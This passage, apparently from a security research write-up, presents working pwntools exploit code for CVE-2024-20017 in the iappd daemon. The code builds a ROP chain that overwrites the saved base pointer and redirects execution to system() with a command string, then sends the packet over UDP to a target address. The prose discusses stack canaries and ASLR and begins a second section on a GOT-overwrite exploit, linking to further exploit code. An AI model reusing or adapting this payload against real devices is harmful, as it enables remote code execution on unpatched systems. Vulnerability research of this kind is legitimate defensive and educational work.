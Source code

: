 ```
    final_pkt += p64(WRITEABLE_STACK)
    final_pkt += PAD_BYTE * 16
    final_pkt += p64(WRITEABLE_STACK)

    # RBP OVERWRITE
    final_pkt += p64(TARGET_RBP_ADDR)

    # Core Exploit
    # this will be the first place execution will be redirected; will load the next value into $rdi
    final_pkt += p64(GADGET_2)
    # pointer to the command string defined a few lines down
    final_pkt += p64(WRITEABLE_STACK - stack_offset)
    final_pkt += PAD_BYTE * 8
    # address to system to jump to for code exec
    final_pkt += p64(SYSTEM_ADDR)

    # address to exit() cleanly upon return
    final_pkt += p64(EXIT_ADDR)
    # command to run through system()
    final_pkt += b"echo LETSGO!!!\x00"
    return final_pkt

# send payload bytes to target
final_pkt = create()
conn = remote(TARGET_IP, TARGET_PORT, typ='udp')
conn.send(final_pkt)

context.log_level = 'info'
log.info(f"sent payload to target {TARGET_IP}:{TARGET_PORT} ({len(final_pkt)} bytes)")
```

On a successful run, the output of the iappd daemon will show a failed call to bash and then print out the string “LETSGO!!!”, demonstrating the successful execution of `echo`, and then exits cleanly.

(Un)fortunately, these days you’re almost guaranteed to find stack cookies and ASLR in use on embedded platforms, which will prevent such trivial exploitation. In those cases, you’ll need an info leak to (hopefully) leak the cookie value or you’ll just have to move onto other techniques that don’t rely on corrupting the saved return address.

* * *

[](#exploit-2-arbitrary-write-via-pointer-corruption-got-overwrite)exploit 2: arbitrary write via pointer corruption, GOT overwrite
-----------------------------------------------------------------------------------------------------------------------------------

*   Build: x86_64, non-forking, no optimizations
*   Mitigations: ASLR, stack canaries, NX, partial RELRO
*   [Exploit code](https://github.com/mellow-hype/cve-2024-20017/blob/main/x86_64/x86_64_partial_relro_got.py)

Continuing from where the previous section left off, let’s say at least stack canaries and ASLR are enabled and the exploit above is no longer viable. Since we don’t have an info leak, let’s shift the focus from corrupting the saved return address on the stack and consider what else could be achieved with the corruption we’re able to cause _before_ reaching the stack canary.
